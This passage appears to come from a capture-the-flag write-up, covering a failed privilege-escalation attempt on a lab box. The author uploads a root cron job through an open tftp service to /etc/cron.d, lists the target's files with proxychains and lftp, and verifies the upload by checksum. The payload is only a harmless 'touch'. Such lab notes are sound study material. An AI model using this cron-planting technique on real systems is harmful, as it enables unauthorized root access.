 #### 6.1. Failed attempt (cron job) `/etc/cron.d`

What we want to achieve:
```
root@kali:~# rm /tmp/AAAA*
root@kali:~# rm /etc/cron.d/cronxx 2>/dev/null
root@kali:~# cat >> /etc/cron.d/cronxx << EOF
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * *   root    touch "/tmp/AAAA_$RANDOM"
EOF
root@kali:~# sleep 60 && ls -la /tmp/ | grep AAAA
-rw-r--r--  1 root root     0 Apr  9 18:46 AAAA_532    ### one minute later
root@kali:~# sleep 60 && ls -la /tmp/ | grep AAAA
-rw-r--r--  1 root root     0 Apr  9 18:47 AAAA_532    ### one minute later
```
This will `touch` with the first pseudo-random value generated when the `cron` was saved on disk. 
So `cron` works w/o restart and it does not have to be executable. If this doesn't work there has to be a similar way
in which cronjobs can be used for priv-esc.


#### 6.2. Default `cron` jobs
```
# proxychains4 -f /root/chain_local lftp -e "ls -la /etc/cron.d;q" 192.168.0.1 2>/dev/null
drwxr-xr-x    2 0        0            4096 Nov 30 18:29 .
drwxr-xr-x   93 0        0            4096 Nov 30 18:34 ..
-rw-r--r--    1 0        0             102 Apr 05  2016 .placeholder
-rw-r--r--    1 0        0             589 Jul 16  2014 mdadm
-rw-r--r--    1 0        0             189 Oct 30 06:31 popularity-contest
```


#### 6.3. Prepare test cronjob
```
cobb@Inception:/var/tmp$ rm cronx 2>/dev/null
cobb@Inception:/var/tmp$ cat >> cronx << EOF
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root touch /tmp/AAAA
EOF
cronxcobb@Inception:/var/tmp$ md5sum cronx
e1775754c3008079a22712f96af86b28  cronx
```


#### 6.4. Upload the cronjob
```
cobb@Inception:/var/tmp$ tftp 192.168.0.1
tftp> verbose
Verbose mode on.
tftp> put cronx /etc/cron.d/cronx
putting cronx to 192.168.0.1:/etc/cron.d/cronx [netascii]
Sent 114 bytes in 0.0 seconds [inf bits/sec]
tftp> q
```


#### 6.5. Uploaded file checksum
```
# proxychains4 -f /root/chain_local lftp -e "cat /etc/cron.d/cronx;q" 192.168.0.1 2>/dev/null | grep -v 'bytes transferred' | md5sum
e1775754c3008079a22712f96af86b28  -
```


#### 6.6. Making sure the time is running on target box
```
# proxychains4 -f /root/chain_local lftp -e "ls -la /etc/cron.d/cronx;q" 192.168.0.1 2>/dev/null
-rw-rw-rw-    1 0        0             122 Apr 09 16:00 cronx
# proxychains4 -f /root/chain_local lftp -e "ls -la /etc/cron.d/cronx;q" 192.168.0.1 2>/dev/null
-rw-rw-rw-    1 0        0             122 Apr 09 16:02 cronx
# proxychains4 -f /root/chain_local lftp -e "ls -la /etc/cron.d/cronx;q" 192.168.0.1 2>/dev/null
-rw-rw-rw-    1 0        0             122 Apr 09 16:03 cronx
```


#### 6.7. Conclusion

Cron under `cron.d` does not execute. Try to leverage `/etc/crontab`.
